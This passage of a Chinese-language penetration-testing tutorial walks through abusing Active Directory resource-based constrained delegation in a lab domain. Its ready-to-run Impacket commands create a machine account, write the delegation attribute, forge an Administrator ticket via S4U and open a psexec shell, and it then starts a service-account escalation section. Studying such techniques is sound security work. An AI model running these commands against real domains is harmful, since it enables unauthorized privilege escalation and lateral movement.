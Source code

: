 1. 利用可控域用户创建一个机器账户 (每个域用户默认可以创建 10 个机器账户, 即 `msDS-MachineAccountQuota (MAQ)` 属性)
2. 修改目标主机的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性, 使其指向新创建机器账户的 SID
3. 利用该机器账户的凭证通过 S4U 协议申请委派至目标主机的 ST 票据, 实现本地提权/横向移动

通过 AdFind 查询域内机器的 CreatorSID 属性

```shell
AdFind.exe -b "DC=hack-my,DC=com" -f "objectClass=computer" cn ms-DS-CreatorSID
```

![image-20230801155807265](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308011558298.png)

可以发现 WIN2008-WEB 这台机器是通过 Alice 加入域的, 那么 Alice 就有权限修改它的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性

首先利用 Alice 账户在域内添加一个机器账户

```shell
addcomputer.py hack-my.com/Alice:'Alice123!' -computer-name TEST\$ -computer-pass 123456 -dc-host DC.hack-my.com -dc-ip 192.168.30.10 
```

然后配置 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性

```shell
rbcd.py hack-my.com/Alice:'Alice123!' -dc-ip 192.168.30.10  -action write -delegate-to WIN2008-WEB\$ -delegate-from TEST\$
```

![image-20230801160224149](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308011602178.png)

可以看到已经成功配置了 RBCD

最后利用 S4U 协议伪造 Administrator 用户申请 ST

```shell
getST.py -dc-ip 192.168.30.10 -spn cifs/WIN2008-WEB.hack-my.com -impersonate Administrator hack-my.com/test\$:123456

export KRB5CCNAME=Administrator.ccache
psexec.py -no-pass -k WIN2008-WEB.hack-my.com -dc-ip 192.168.30.10
```

![image-20230801160339731](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308011603762.png)

## 服务账户提权

参考文章:

[https://mp.weixin.qq.com/s/Ue2ULu8vxYHrYEalEzbBSw](https://mp.weixin.qq.com/s/Ue2ULu8vxYHrYEalEzbBSw)

https://www.cnblogs.com/nice0e3/p/17041293.html

原理: IIS, MSSQL, Network Service 等服务账户出网时使用的是本机的机器账户, 访问域内资源时能够以机器账户的身份修改自身的委派属性, 从而提升至本地管理员权限

[https://learn.microsoft.com/en-us/iis/manage/configuring-security/application-pool-identities](https://learn.microsoft.com/en-us/iis/manage/configuring-security/application-pool-identities)
